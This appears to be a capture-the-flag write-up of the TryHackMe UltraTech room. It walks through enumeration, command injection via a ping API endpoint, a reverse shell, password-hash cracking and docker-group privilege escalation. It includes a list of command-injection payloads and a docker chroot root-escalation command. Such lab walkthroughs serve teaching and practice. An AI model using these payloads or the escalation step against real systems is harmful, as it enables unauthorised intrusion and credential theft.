

# Ultratech

 

[UltraTech](https://tryhackme.com/room/ultratech) is an semi-guided room that covers the basics of penetration testing which are Enumeration, Privilege Escalation and WebApp testing.


## Enumeration

### Port Scanning
As usual, we start with port scanning.


The scan reveals that the machine has 4 open ports: 21 (FTP), 22 (SSH), 8080 (HTTP) and 31337 (HTTP).

### HTTP Enumeration

Visiting the HTTP service on port 8080, we realize that it is an API service. Skipping this for now, we move on to the other HTTP service on port 31337.

It is a simple static website. I run `feroxbuster` to find hidden directories.


We find a javascript file `api.js`. Inspecting the file may reveal some useful information.

### Inspecting found js file

`api.js` contains juicy information. It reveals that the API service on port 8080 is used to login and ping the server.


### API Enumeration

I will try to execute command bypassing the `ping` endpoint. 

Got some payloads from Hacktricks.

```sh
#Both Unix and Windows supported
ls||id; ls ||id; ls|| id; ls || id # Execute both
ls|id; ls |id; ls| id; ls | id # Execute both (using a pipe)
ls&&id; ls &&id; ls&& id; ls && id #  Execute 2º if 1º finish ok
ls&id; ls &id; ls& id; ls & id # Execute both but you can only see the output of the 2º
ls %0A id # %0A Execute both (RECOMMENDED)

#Only unix supported
`ls` # ``
$(ls) # $()
ls; id # ; Chain commands
ls${LS_COLORS:10:1}${IFS}id # Might be useful

#Not executed but may be interesting
> /var/www/html/out.txt #Try to redirect the output to a file
< /etc/passwd #Try to send some input to the command
```

Using the first payload, I get the output of the `ls` command.


I downloaded a reverse shell to the machine and started a listener on my machine. I executed the reverse shell command and got the shell!  


On the same directory, there was a file named `utech.db.sqlite`. I printed the contents of the file and found the user names and hashed passwords. (I know, I should copy the file to my machine and read it there, whatever)


Using [hashes.com](https://hashes.com) which is an online hash lookup tool, I found the password for both users `admin` and `r00t`.



### Privilege Escalation

As we know the password for the user `r00t`, we can login to the machine using SSH.

```sh
ssh r00t@10.10.***.***
```

Once we login, we can see we are in `docker` group. We can use this to escalate our privileges.


```sh
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```


We are now root! 

### Note

I kinda hate the fact that the time I wait for the last `docker` command to execute took longer than 15 minutes. I had restarted machines several times and it was frustrating. 

